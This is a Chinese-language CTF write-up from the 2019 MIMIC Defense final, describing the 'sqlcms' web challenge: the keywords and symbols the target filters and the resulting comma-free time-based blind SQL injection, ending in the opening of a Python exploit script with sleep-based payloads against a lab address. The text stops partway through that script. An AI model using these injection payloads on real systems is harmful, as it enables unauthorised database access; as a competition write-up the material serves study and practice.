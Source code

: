 ```yaml
---
title: MIMIC Defense CTF 2019 final writeup
date: 2019-05-28 17:32:01
tags:
- mimic
---
```



上周有幸去南京参加了强网杯拟态挑战赛，运气比较好拿了第二名，只是可惜是最后8分钟被爆了，差一点儿真是有点儿可惜。

有关于拟态的观念我会在后面讲防火墙黑盒攻击的writeup时在详细写，抛开拟态不谈，赛宁这次引入的比赛模式我觉得还蛮有趣的，白盒排位赛的排名决定你是不是能挑战白盒拟态，这样的多线并行挑战考验的除了你的实际水平，也给比赛本身平添了一些有趣的色彩（虽然我们是被这个设定坑了），虽然我还没想到这种模式如何应用在普通的ctf赛场上，但起码也是一个有趣的思路不是吗🙋.


# Web 白盒

## sqlcms

这题其实相对比赛中的其他题目来说，就显得有些太简单了，当时如果不是因为我们是第一轮挑战白盒的队伍，浪费了30分钟时间，否则抢个前三血应该是没啥问题。

简单测试就发现，过滤了以下符号
```
,
and &
| or
for
sub
%
^
~
```

此外还有一些字符串的过滤
```
hex、substring、union select
```
还有一些躺枪的(因为有or)
```
information_schema
```

总结起来就是，未知表名、不能使用逗号、不能截断的时间盲注。其实实际技巧没什么新意，已经是玩剩下的东西了，具体直接看exp吧

```
# coding=utf-8

import requests
import random
import hashlib
import time

s = requests.Session()
url='http://10.66.20.180:3002/article.php'
tables_count_num = 0
strings = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@!#$%*().<>1234567890{}"


def get_content(url):

	for i in xrange(50):
			# payload = "1 and ((SELECT length(user) from admin limit 1)="+str(i)+") and (sleep(2))"
			# payload = "(select case when ((SELECT length(t.2) from (select 1,2,3,4 union select * from flag) limit "+str(j)+") >"+str(i)+") then 0 else sleep(2) end)"
```